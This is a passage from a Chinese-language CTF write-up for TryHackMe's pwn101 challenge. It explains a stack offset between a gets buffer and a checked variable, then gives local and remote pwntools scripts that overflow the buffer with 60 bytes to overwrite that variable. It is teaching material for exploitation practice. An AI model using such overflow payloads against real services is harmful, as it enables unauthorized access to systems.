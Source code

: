 rbp-0x4是v5变量的首地址，将其复制为0x539（1337），对应v5=1337

在最初看到setup函数调用时，可能会有困惑，为什么没有通过寄存器传递参数。如果仔细分析可以发现，setup传递过去的参数和main函数就收的参数是一样的，而main函数接收了参数后没有进行任何的操作，所以此时不需要对寄存器进行操作了，只需要将eax寄存器赋值为0。

传递给gets的参数为rpb-0x40，也就是说v4数组的首字节为rpb-0x40。

(rpb-0x04)-(rpb-0x40) = (rpb-rpb)-(0x04-0x40) = 0 - (0x04-0x40) = 60

![image-20231116101327757](images/pwn101%E9%9D%B6%E5%9C%BA.assets/image-20231116101327757.png)



本地构造payload

```python
#!/usr/bin/env python
from pwn import *

sh = process('./pwn101')

#先将60字节用数据填充，然后剩余4字节用一个不为1337（0x539）的4字节数填充
payload = b"A" * 60 + p32(0x0)

sh.sendline(payload)
sh.interactive()
```







远程连接发送payload

使用tryhackme提供的远程桌面，编写payload

```python
#!/usr/bin/env python
from pwn import *

#sh = process('./pwn101')
sh = remote('ip',port)

#先将60字节用数据填充，然后剩余4字节用一个不为1337（0x539）的4字节数填充
payload = b"A" * 60 + p32(0x0)

sh.sendline(payload)
sh.interactive()
```
